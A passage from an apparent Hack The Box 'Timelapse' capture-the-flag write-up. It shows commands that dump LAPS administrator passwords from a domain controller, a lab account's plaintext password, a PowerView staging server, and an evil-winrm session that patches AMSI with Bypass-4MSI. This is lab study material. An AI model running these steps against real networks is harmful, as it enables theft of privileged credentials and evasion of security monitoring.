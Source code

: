 
## Dump laps from domain controller

> **What is LAPS?**
> **LAPS** (Local Administrator Password Solution) will mange local Administrator password for domain computers
{: .prompt-tip }

> **Another way to dump laps**
> > https://github.com/n00py/LAPSDumper
> ```bash
> python laps.py -d timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
> ```
{: .prompt-tip }

> **Dump LAPS without powerview (Requires `AD Module` that is installed on DC by default)**
> ```bash
> Get-ADComputer DC01 -property 'ms-mcs-admpwd'
> ```
{: .prompt-tip }

Prepare **powerview**

```bash
┌──(kali㉿kali)-[~/htb/Timelapse/www]
└─$ ln -s /opt/sectools/powershell/PowerSploit/Recon/PowerView.ps1

┌──(kali㉿kali)-[~/htb/Timelapse/www]
└─$ python -m http.server 80
```

Connect with **evil-winrm** and **bypass amsi** 

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ evil-winrm -i timelapse.htb -S -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
```
